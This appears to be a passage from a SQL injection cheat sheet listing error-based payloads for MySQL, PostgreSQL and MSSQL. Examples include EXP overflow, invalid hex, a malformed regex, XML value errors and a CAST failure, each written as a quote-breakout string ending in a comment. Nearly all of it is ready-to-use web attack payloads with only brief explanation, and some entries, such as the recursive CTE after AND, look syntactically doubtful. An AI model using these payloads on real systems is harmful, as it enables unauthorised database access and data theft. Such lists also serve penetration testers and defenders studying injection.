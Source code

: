 ### MySQL

#### Use of Invalid Functions
- MySQL provides many functions that, when used incorrectly, can generate errors.
  ```sql
  ' AND EXP(~(SELECT * FROM (SELECT 1) t)) -- 
  ```

#### Invalid Hexadecimal Conversion
- Using invalid hexadecimal values can cause errors.
  ```sql
  ' AND 0xG1 -- 
  ```

#### Subqueries in SELECT Clause
- Use subqueries that return multiple rows in a single value context.
  ```sql
  ' AND (SELECT * FROM (SELECT 1,2) t) = 1 -- 
  ```

### PostgreSQL

#### Invalid Regular Expression
- PostgreSQL's regex functions can be used incorrectly to cause errors.
  ```sql
  ' AND 'a' ~ 'b[' -- 
  ```

#### Invalid JSON Operations
- Use JSON functions with invalid operations.
  ```sql
  ' AND jsonb_path_query_first('{"a":1}', '$.a') -- 
  ```

#### Recursive CTE
- Use recursive Common Table Expressions (CTE) incorrectly.
  ```sql
  ' AND WITH RECURSIVE t AS (SELECT 1 UNION ALL SELECT 1 FROM t) SELECT * FROM t -- 
  ```

### MSSQL

#### Invalid XML Queries
- MSSQL’s XML functions can generate errors when used with invalid XML.
  ```sql
  '; DECLARE @xml XML; SET @xml = '<root><a></a><b></b></root>'; SELECT @xml.value('(/root/c)[1]', 'INT') --
  ```

#### Invalid Data Conversion
- Conversion functions can cause errors when converting incompatible data types.
  ```sql
  '; SELECT CAST('text' AS INT) --
  ```
